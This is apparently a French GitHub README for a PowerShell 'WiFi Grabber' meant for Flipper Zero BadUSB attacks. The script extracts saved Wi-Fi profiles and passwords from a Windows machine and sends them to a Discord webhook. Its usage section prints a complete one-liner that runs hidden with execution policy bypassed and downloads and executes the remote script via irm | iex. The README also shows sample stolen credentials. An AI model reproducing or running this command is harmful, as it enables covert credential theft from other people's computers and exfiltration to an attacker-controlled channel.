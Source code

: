 # 📡 WiFi Grabber PowerShell

Un script PowerShell léger qui extrait les profils Wi-Fi enregistrés sur une machine Windows (FR) et envoie les identifiants masqués vers un webhook Discord.

---

## 🚀 Fonctionnalités

- 🔍 Récupère tous les profils Wi-Fi (`netsh wlan show profiles`)
- 🔑 Extrait les clés Wi-Fi stockées localement
- 🕵️ Formate les mots de passe Wi-Fi en **spoiler Discord** (`||motdepasse||`)
- 📤 Envoie l’ensemble des infos dans **un seul message** via un webhook Discord

---

## 🧪 Exemple de résultat

📶 Réseau : Livebox_Maison
 🔑 Clé : ||motdepasse123||

📶 Réseau : GUEST_WIFI 🔑
 Clé : ||weloveunifi||

---

## ⚙️ Utilisation


### 1. Héberger le script en version RAW 

### 2. Exécution via ligne de commande PowerShell (ou Flipper Zero BadUSB)

`Windows + R`

```bash
powershell -w h -NoP -Ep Bypass $webhook='https://discord.com/api/webhooks/TON_ID/TON_TOKEN';irm https://raw.githubusercontent.com/Transversed/Flipper-Zero/refs/heads/main/BadUSB/Wifi-Grabber/Wifi-Grabber.ps1?token=GHSAT0AAAAAADCSRV35UXSDVBUXPA4UIFBK2AGL3BQ | iex
```





![PowerShell](https://img.shields.io/badge/script-PowerShell-blue?logo=powershell)
